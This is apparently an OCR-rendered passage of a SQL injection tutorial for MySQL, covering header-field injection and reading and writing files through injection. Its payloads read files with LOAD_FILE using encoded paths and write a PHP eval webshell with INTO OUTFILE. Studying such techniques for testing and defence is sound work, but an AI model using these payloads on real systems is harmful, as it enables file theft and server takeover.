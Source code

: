 ````sql
### Other Injections
It mainly includes several other injection methods mentioned above that are classified in the submission method, such as `User-Agent` header field injection, `Referer` header field injection, `Cookie` header field injection, `XFF` header field injection, etc.

### File Reading and Writing
Here, the relevant knowledge of file reading is placed in the injection method because its utilization method is also used to import and export files through `SQL` injection, so as to obtain file content or write content to the file, so it is a special injection method.

Query user read and write permissions:
````sql
select file_priv from mysql.user where user = 'username';
```

#### File Reading
Usually, `load_file()` or `load data infile` or `load data local infile` is used to read file. The principle of reading files is the same. Create a new table, read the file into a string and read the data in the table after inserting it into the table. Use prerequisites:
 - `secure_file_priv` is not `NULL`. You can use `select @@secure_file_priv` to view its value. When the value is not an empty string, you can only use this directory to read and write files.
 - The current database user has `FILE` permission, use `show grants` to view.
 - The system user `mysql` is readable to this file (the system's access control policy must be considered. When using `MySQL` in `Ubuntu-18.04`, the default system user is `mysql`).
 - The size of the read file is less than `max_allowed_packet`, and you can use `select @@max_allowed_packet` to view it.
 - You need to know the absolute physical path of the file.

The value of `secure_file_priv`:
 - When `secure_file_priv` is `NULL`, import and export are not allowed.
 - When `secure_file_priv` is specified, it means that the import and export of `MySQL` can only happen in the specified folder.
 - When `secure_file_priv` is not set, it means there is no limit.

`Payload` is as follows, and you need to pay attention to the processing of slashes in the path (when injecting the `WINDOWS` system):

````sql
UNION SELECT LOAD_FILE("C:/shell.php")
UNION SELECT LOAD_FILE("C://shell.php")
UNION SELECT LOAD_FILE("C:\\shell.php")
UNION SELECT LOAD_FILE(CHAR(67,58,92,92,115,104,101,108,108,46,112,104,112))
UNION SELECT LOAD_FILE(0x433a7368656c6c2e706870)
```

#### File writing
`INTO OUTFILE` is usually used to write files, and the prerequisites are used:
 - `secure_file_priv` is not `NULL`. You can use `select @@secure_file_priv` to view its value. When the value is not an empty string, you can only use this directory to read and write files.
 - The current database user has `FILE` permission, use `show grants` to view.
 - The system user `mysql` is readable to this file (the system's access control policy must be considered. When using `MySQL` in `Ubuntu-18.04`, the default system user is `mysql`).
 - The size of the read file is less than `max_allowed_packet`, and you can use `select @@max_allowed_packet` to view it.
 - You need to know the absolute physical path of the website, ensure that the exported `webshell` is accessible, and has writable permissions to the directory to be exported.

`Payload` is as follows, and you need to pay attention to the processing of slashes in the path (when injecting the `WINDOWS` system):
````sql
UNION SELECT "<?php eval($_POST['h3rmesk1t'])?>" INTO OUTFILE 'C:\\phpstudy\\WWW\\test\\webshell.php';
```

````